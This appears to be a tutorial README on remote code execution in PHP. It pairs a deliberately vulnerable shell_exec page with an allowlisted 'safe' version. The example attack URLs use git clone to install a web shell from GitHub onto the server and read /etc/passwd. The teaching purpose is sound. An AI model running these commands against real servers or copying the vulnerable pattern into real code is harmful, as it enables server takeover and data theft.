



# RCE Vulnerability Example

An RCE Vulnerability allows a attacker executes code in the server command line to get information of the server or install malware

### Vulnerable Website
http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php

This website executes in the server any command that you send in the cmd param
```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/* If the parameter cmd not exists finish the execution */
if (!isset($_GET['cmd'])) {
	die("Falta el parametro cmd");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=ls



using this we can clone a GitHub Repository and install it on the server.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=git%20clone%20https://github.com/xl7dev/WebShell.git

Es posible que para esto sea necesario modificar los permisos de escritura de la carpeta.

O tambien podemos accedes al fichero etc/passwd del servidor.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=cat%20/etc/passwd



### Secure Website

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php

Although the ideal is not allow the website to execute commands if we need execute certain commands we can create a list with the allowed commands in the server and verife the command before the execution.

```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/*Array with the allowed commands to execute in the server */
$allowed_cmds = ["ls", "whoami", "pwd"];

/* If the parameter cmd not exists or isn't in the list finish the execution */
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
	die("Falta el parametro cmd  o ha insertado un comando no valido");
}

/* Execute the command in the cmd parameter and shows the output */
$output = shell_exec(escapeshellarg($_GET['cmd']));
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```
If we send an not allowed command the server finish the execution before execute them.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php?cmd=cat%20/etc/passwd


